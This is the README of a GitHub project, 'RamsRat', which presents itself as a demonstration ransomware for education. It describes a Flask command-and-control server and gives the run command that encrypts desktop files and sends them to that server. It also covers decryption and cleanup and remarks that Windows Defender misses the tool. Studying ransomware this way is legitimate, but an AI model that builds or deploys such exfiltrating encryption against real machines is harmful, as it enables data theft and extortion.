 # RamsRat-Ransomware
A fake Ransomware to understand exactly how it works.

**DISCLAIMER: I am not responsible for anything you do with this script. I provide this script and my pseudo-knowledge for the sole purpose of educating, not destroying.**

[Version-Française]()

To understand how ransomware works, it's important to note that the following is a general description. Ransomware can vary considerably depending on the specific features of each virus.

In general, ransomware :

- Is executed by the host or attacker on the target machine.
- Creates a key (often 32-bit, which can take a long time to break).
- Sends files to a command and control (C2) server.
- Encrypts files with the key.
- Demands a ransom.

## Ransomware

Ransomware is scripting software that executes code to encrypt personal data. It may or may not extract this data to a remote server, so that even if you pay the ransom, the attackers can still use it.

You are then asked to pay in exchange for the decryption key (and sometimes a decryptor).

The end of the story depends solely on the good faith of the person who encrypted your computer (lol).

## C2 server

A C2 (command and control) server is mainly used to manage the victims of your payloads, a bit like sessions in Metasploit.
Here, it's simply a Python script that allows you to receive files via a link.


## Build requirements

- A Windows client (you can use your own Windows, the script is harmless, or use a virtual machine).
-  [Visual Studio Community](https://visualstudio.microsoft.com/fr/downloads/)
  
## Prerequisites Started

- A Windows client (you can use your own Windows, the script is harmless, or use a virtual machine).
- [Python 3](https://www.python.org/downloads/) (on Windows or Linux, it doesn't matter).
- [.NET Desktop Runtime 6.0.31](https://dotnet.microsoft.com/en-us/download/dotnet/6.0)

## How it works


**<!>  Encrypts only files on the desktop, not folders or other locations.**

- Run by user.
- Copies files from the Desktop to: `Desktop/DecryptFiles`.
- Sends desktop files to C2 server.
- Change wallpaper.
- Executes a `readme.txt`.
- Encrypts the desktop files with a 32-bit key.

The result is a completely encrypted desktop.

The copied files are in `Bureau/DecryptFiles`.

Files on the control server (C2) are decrypted and downloaded.

As this is a demonstration, no data persistence or corruption will occur.

Finally, a decryptor `Decryptor.exe` and the 32-bit key will be needed if you want to decrypt the data on the Desktop.

**Again, there's a copy of this data in `Desktop/DecryptFiles`, so you don't have to decrypt the desktop files. You can simply copy them.**

## Get Started

As mentioned earlier, this script is theoretically harmless. However, it can easily be modified to cause damage. Use only the script from this [GITHUB](https://github.com/Raaatus/RamsRat-Ransomware).

The C2 server is independent of the ransomware. It can be remote or local, on another machine or on the machine to be encrypted.

### C2 server installation

- Installation of dependencies :
  - Windows : 
    - [Python 3](https://www.python.org/downloads/) 
    ```
    pip install Flask
    ```
  - Linux
    ```
    sudo apt install python3
    pip install Flask
    ```

- Launch the c2 server. **(If it's on Windows, don't put the script on the desktop)**

  ![plot](./img/serverc2.png)

### Ransomware execution

Defender ?

![plot](./img/defenderanalyse.gif)


Defender is probably being fooled by the build, but I'm disappointed that it doesn't even detect file encryption on your PC.

- After you've built or downloaded the release, you end up with a `Ramsom` folder.
- Place it anywhere on the machine you want to “check”.

- Run cmd to specify the C2 server and port. Type `cmd` at the top of the address bar.
  ![plot](./img/cmdexec.png)


- Finally, execute the command 
     `RamsRat.exe ip-server-c2 port-server-c2 ` == 
     `RamsRat.exe 10.0.24.55 5000`

- At the end of execution : 
  - The desktop is encrypted and the wallpaper changed:
  
    ![plot](./img/Execution.gif)

  - Readme opened with instructions (Fake):

 ![plot](./img/encryptdesk.png)

  - The files have been sent to C2 and are readable: 

    ![plot](./img/filesc2.png)

  

- We still find our files copied to `Bureau/DecryptFiles`. As well as the decryption key:

    ![plot](./img/decryptfiles.png)

  
### File decryption

With the Ransomware I supply the Decryptor.exe.

It is supplied with the path of the encrypted folder and the key. Here it's simple: both are on the desktop.

Use cmd and the command.


```
Decryptor.exe <encryptedFolderPath> <keyFilePath>

Decryptor.exe C:\Users\ratus\Desktop C:\Users\ratus\Desktop\DESKTOP-S3D0A9K.encryptionkey.key
```

![plot](./img/decryption.gif)


### Cleaning 

- With decryptor : 
  - Decrypt your data
  - Delete all .ratus files
  - Delete `DecryptFiles` folder
  - Delete readme
  - Delete project (optional)
- Without decryptor :
  - Copy files from `DecryptFiles` to Desktop
  - Delete .ratus
  - Delete readme
  - Delete `DecryptFiles
  - Delete project (optional)
- Serverc2 :
  - Delete python script
  - ipip unistall Flask
